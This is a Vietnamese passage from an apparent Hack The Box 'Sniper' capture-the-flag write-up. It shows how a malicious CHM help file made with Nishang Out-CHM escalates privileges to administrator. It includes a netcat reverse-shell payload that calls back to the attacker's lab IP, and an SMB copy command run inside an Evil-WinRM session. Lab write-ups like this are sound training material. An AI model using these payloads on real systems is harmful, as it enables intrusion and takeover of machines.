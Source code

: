 Theo Wikipedia:

> Microsoft Compiled HTML Help là một định dạng trợ giúp trực tuyến độc quyền của Microsoft, bao gồm một tập hợp các trang HTML, một chỉ mục và các công cụ điều hướng khác. Các tệp được nén và triển khai ở định dạng nhị phân với phần mở rộng là .CHM, dành cho HTML được biên dịch. Định dạng thường được sử dụng cho tài liệu phần mềm

Vì vậy, bây giờ mọi thứ đang bắt đầu nhấp vào:

1. Quản trị viên / Giám đốc điều hành đang mong đợi tài liệu 
2. Tệp hướng dẫn.chm là một tệp html đã biên dịch được sử dụng để làm tài liệu

Tôi nhớ đã đọc về các tệp CHM độc hại một thời gian trước, vì vậy tôi đảm bảo mở tệp trong một máy ảo Windows riêng biệt:

![20](https://snowscan.io/assets/images/htb-writeup-sniper/instructions.png)

Tác giả đã thực hiện một số nghiên cứu và phát hiện ra công cụ [Nishang Out-CHM](https://github.com/samratashok/nishang/blob/master/Client/Out-CHM.ps1) có thể tạo ra tải trọng độc hại. Tác giả có thể yêu cầu RCE làm quản trị viên với tệp độc hại này.

## Tạo tệp CHM độc hại để nâng cấp đặc quyền
Sau khi cài đặt Hội thảo trợ giúp HTML trên máy Windows của mình, tác giả đã tạo một tệp CHM độc hại sử dụng netcat để tạo ra một trình bao ngược:

```powershell
PS > Out-CHM -Payload "C:\programdata\nc.exe -e cmd.exe 10.10.14.11 3333" -HHCPath "C:\Program Files (x86)\HTML Help Workshop"
```
Đã tải nó lên máy chủ…

```powershell
*Evil-WinRM* PS C:\docs> copy \\10.10.14.11\test\doc.chm .
```
Và bùng nổ, có một shell với tư cách là `quản trị viên`:

![21](https://snowscan.io/assets/images/htb-writeup-sniper/root.png)

## Thanks :D